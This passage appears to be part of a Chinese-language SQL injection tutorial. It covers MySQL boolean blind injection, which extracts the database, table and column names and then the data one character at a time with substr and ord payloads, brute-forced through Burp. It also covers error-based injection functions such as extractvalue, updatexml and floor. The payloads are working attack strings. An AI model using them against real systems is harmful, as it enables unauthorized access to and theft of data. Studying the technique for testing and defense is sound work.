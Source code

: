 **3、猜解数据库名**

使用逐字符判断的方式获取数据库名；数据库名的范围一般在az、09之内，可能还会有特殊字符 “_”、”-“ 等，这里的字母不区分大小写。
```
' and substr(database(),1,1)='a'--+
' and substr(database(),2,1)='a'--+

substr 的用法和 limit 有区别，limit从 0 开始排序，这里从 1 开始排序。
```
用Burp爆破字母a的位置，即可得到数据库名每个位置上的字符。

**还可以用ASCII码查询**

a 的ASCII码是97，在MySQL中使用ord函数转换ASCII，所以逐字符判断语句可改为：
```
' and ord(substr(database(),1,1))=97--+
```

**4、判断数据库表名**
```
' and substr((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),1,1)='a'--+

--修改1,1前边的1~20，逐字符猜解出第一个表的名
--修改limit的0,1前边的0~20，逐个猜解每个表
```

**5、判断数据库字段名**
```
' and substr((select column_name from information_schema.columns where table_schema='数据库名' and table_name='表名' limit 0,1),1,1)='a'--+

--修改1,1前边的1~20，逐字符猜解出第一个字段的名
--修改limit的0,1前边的0~20，逐个猜解每个字段
```

**6、取数据**
```
' and substr((select 字段名 from 表名 limit 0,1),1,1)='a'--+
```
如果嫌用Burp慢的话，可以自己编写脚本，修改payload即可

### 报错注入

在SQL注入攻击过程中，服务器开启了错误回显，页面会返回错误信息，利用报错函数获取数据库数据。

常用的MySQL报错函数
```sql
--xpath语法错误
extractvalue()    --查询节点内容
updatexml()        --修改查询到的内容
它们的第二个参数都要求是符合xpath语法的字符串
如果不满足要求则会报错，并且将查询结果放在报错信息里

--主键重复（duplicate entry）
floor()            --返回小于等于该值的最大整数
只要是count，rand()，group by 三个连用就会造成这种主键重复报错
```
